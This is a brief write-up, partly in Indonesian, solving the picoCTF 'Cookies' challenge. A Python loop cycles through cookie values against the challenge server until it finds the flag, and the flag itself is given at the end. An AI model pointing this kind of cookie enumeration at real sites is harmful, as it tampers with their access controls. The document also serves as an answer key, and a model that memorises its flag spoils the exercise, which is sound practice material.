 <h1>Cookies</h1>
<p>Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/</p>
<h3>Solution</h3>
<p>Eksekusi Cookies['name'] = 1 s/d 15</p>

```python3
import requests

url = 'http://mercury.picoctf.net:29649/'
for i in range(20):
    cookies = {'name':str(i)}
    response = requests.get(url,cookies=cookies).text
    if 'picoCTF{' in response:
        print(response)
```

<h3>Flag</h3>
<p>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</p>
